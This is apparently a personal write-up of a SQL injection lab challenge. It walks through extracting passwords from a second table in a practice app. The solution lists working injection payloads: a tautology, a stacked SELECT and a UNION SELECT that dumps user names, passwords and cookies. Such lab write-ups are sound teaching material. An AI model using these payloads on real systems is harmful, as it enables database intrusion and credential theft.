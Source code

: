 # Challenge name: Try It! Pulling data from other tables

### Challenge desciption:
The input field below is used to get data from a user by their last name.
The table is called 'user_data':
```sql
CREATE TABLE user_data (userid int not null,
                        first_name varchar(20),
                        last_name varchar(20),
                        cc_number varchar(30),
                        cc_type varchar(10),
                        cookie varchar(20),
                        login_count int);
```
Through experimentation you found that this field is susceptible to SQL injection. Now you want to use that knowledge to get the contents of another table.
The table you want to pull data from is:
```sql
CREATE TABLE user_system_data (userid int not null primary key,
			                   user_name varchar(12),
			                   password varchar(10),
			                   cookie varchar(30));
```
### My solution
- Try to use `' or 1=1 -- `
![img](chall-attached/img-1.png)
- Very easy! We have all data of table `user_data`, but this challenge need `password` of table `user_system_data`.
- We just add 1 query in this query `;select * from user_system_data -- `
![img](chall-attached/img-3.png)
- Or use `UNION`
`' union select userid,user_name,password,cookie,null,null,null -- `
![img](chall-attached/img-4.png)
- Copy password and type in password input and complete challenge.
